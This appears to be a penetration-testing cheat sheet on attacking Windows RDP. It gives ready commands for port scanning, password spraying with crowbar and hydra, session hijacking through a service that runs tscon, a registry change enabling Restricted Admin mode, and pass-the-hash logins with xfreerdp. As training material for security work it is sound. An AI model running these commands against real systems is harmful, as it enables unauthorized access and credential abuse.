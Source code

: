 ### I. RDP Basics

- **Function:** Provides a graphical interface for remote computer access.
- **Port:** TCP/3389.
- **Use Cases:** System administration, MSPs.
- **Attack Vectors:**
    - Misconfigurations (weak/no passwords).
    - Password guessing/spraying.
    - Session hijacking.
    - Pass-the-Hash (PtH).
    - Exploiting vulnerabilities (e.g., BlueKeep).

### II. Enumeration

- **Nmap:**

```bash
nmap -Pn -p3389 <target_IP>
```

### III. Misconfigurations & Password Attacks

- **Password Spraying:**

```bash
crowbar -b rdp -s <target_IP>/32 -U <user_list> -c <password>
hydra -L <user_list> -p <password> <target_IP> rdp
```

- **RDP Login:**

```bash
rdesktop -u <user> -p <password> <target_IP>
xfreerdp /v:<target_IP> /u:<user> /p:<password>
```

### IV. Protocol-Specific Attacks

- **RDP Session Hijacking:**

```bash
query user
sc.exe create sessionhijack binpath= "cmd.exe /k tscon <target_session_ID> /dest:rdp-tcp#<our_session_ID>"
net start sessionhijack
```

- **RDP Pass-the-Hash (PtH):**
    
- Enable Restricted Admin Mode (registry key):
    

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

- Authenticate using NT Hash:

```bash
xfreerdp /v:<target_IP> /u:<user> /pth:<NT_hash>
```

### V. Latest RDP Vulnerabilities

- **CVE-2019-0708 (BlueKeep):**
    - RCE vulnerability.
    - Use-After-Free (UAF) technique.
    - Triggered by manipulated initialization requests.
    - Impacts older Windows versions.
    - Exploitation can cause system instability (BSoD).

### Key Commands Summary

- **Nmap:**

```bash
nmap -Pn -p3389 <target_IP>
```

- **Crowbar:**

```bash
crowbar -b rdp -s <target_IP>/32 -U <user_list> -c <password>
```

- **Hydra:**

```bash
hydra -L <user_list> -p <password> <target_IP> rdp
```

- **rdesktop:**

```bash
rdesktop -u <user> -p <password> <target_IP>
```

- **xfreerdp:**

```bash
xfreerdp /v:<target_IP> /u:<user> /p:<password>
xfreerdp /v:<target_IP> /u:<user> /pth:<NT_hash>
```

- **Windows Commands:**

```bash
query user
sc.exe create sessionhijack binpath= "cmd.exe /k tscon <target_session_ID> /dest:rdp-tcp#<our_session_ID>"
net start sessionhijack
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

